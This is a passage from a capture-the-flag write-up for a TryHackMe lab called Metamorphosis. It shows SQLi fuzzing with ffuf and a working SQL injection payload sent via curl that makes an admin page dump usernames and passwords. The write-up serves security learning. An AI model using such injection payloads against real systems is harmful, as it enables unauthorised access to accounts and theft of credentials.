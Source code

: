 Nice!!

**In `/admin/index.php`, we can get info of users. Let's try `tom`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015418.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015432.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015501.png)

As you can see, when clicked the "Submit Query" button, **it'll send a POST request to `/admin/config.php`, with parameter `username`.**

Then, it'll display the username and password.

**Now, we can try to test SQL injection, as it may be using SQL query to fetch users' info:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# ffuf -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://metamorphosis.thm/admin/config.php -X POST -d "username=FUZZ" -fs 0
[...]
```

But no luck in fuzzing...

## Initial Foothold

**Let's do it manually:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/admin/config.php --data-urlencode 'username=" OR 1=1-- -'    
Username Password<br>tom {Redacted}<br /> 
```

**After some testing, I found that we can use `"` to break out of the SQL query, then use `OR 1=1` to always evaluate `true`, and finally use `-- -` to comment out the reset of the query.**
